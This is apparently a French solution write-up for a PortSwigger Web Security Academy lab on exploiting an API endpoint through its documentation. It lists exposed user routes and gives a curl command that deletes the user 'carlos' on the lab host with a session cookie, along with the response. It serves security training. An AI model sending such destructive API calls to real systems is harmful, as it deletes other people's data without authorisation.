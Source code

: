 # Lab

https://portswigger.net/web-security/api-testing/lab-exploiting-api-endpoint-using-documentation

## Solution

Aller sur `/api` et découvrir 3 routes exposées :

- GET `/user/[username: String]`
- DELETE `/user/[username: String]`
- PATCH `/user/[username: String]`

Faire un appel DELETE sur le user `carlos` avec les cookies de la session en cours :

```bash
curl -X DELETE https://0af4000103863d6f86d685c2006e00ef.web-security-academy.net/api/user/carlos -b session=uY1r9fGpkPy2YGojk0eUsI6DQUgA7N2K

{"status":"User deleted"}
```